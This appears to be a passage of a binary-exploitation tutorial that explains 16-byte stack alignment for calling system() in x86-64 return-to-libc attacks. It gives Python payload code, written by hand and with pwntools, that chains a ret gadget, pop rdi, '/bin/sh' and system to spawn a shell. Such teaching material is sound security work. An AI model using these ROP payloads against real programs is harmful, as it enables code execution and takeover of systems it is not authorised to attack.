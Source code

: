 
### Stack Alignment Issue

**Some functions require 16-byte stack alignment.**

`system()` on modern Linux needs: `RSP % 16 == 0`

**Symptom:** Exploit reaches system() but crashes.

**Solution:** Add an extra `ret` gadget before calling system.

**Why this works:**
```
Before ret:
  RSP = 0x7fffffffe008  (not aligned - ends in 8)

After ret:
  RSP = 0x7fffffffe010  (aligned - ends in 0!)
```

The extra `ret` shifts the stack by 8 bytes, achieving alignment.

---

### Building the Payload

**Manual method:**
```python
# Calculate addresses
libc_base = leaked - 0x21aaa0
pop_rdi = libc_base + 0x2a3e5
ret_gadget = libc_base + 0x2a3e6
system_addr = libc_base + 0x50d70
binsh_addr = libc_base + 0x1d8698

# Build ROP chain
payload = b'A' * 200           # Padding
payload += p64(ret_gadget)     # Alignment
payload += p64(pop_rdi)        # Set RDI
payload += p64(binsh_addr)     # "/bin/sh"
payload += p64(system_addr)    # Call system
```

**Pwntools method (easier):**
```python
libc.address = libc_base
rop = ROP(libc)
rop.raw(rop.find_gadget(['ret'])[0])  # Alignment
rop.call('system', [next(libc.search(b'/bin/sh\x00'))])

payload = b'A' * 200 + rop.chain()
```

**What `rop.call()` does automatically:**
1. Finds `pop rdi; ret` gadget
2. Finds `system()` address
3. Finds "/bin/sh" string
4. Builds the ROP chain correctly

---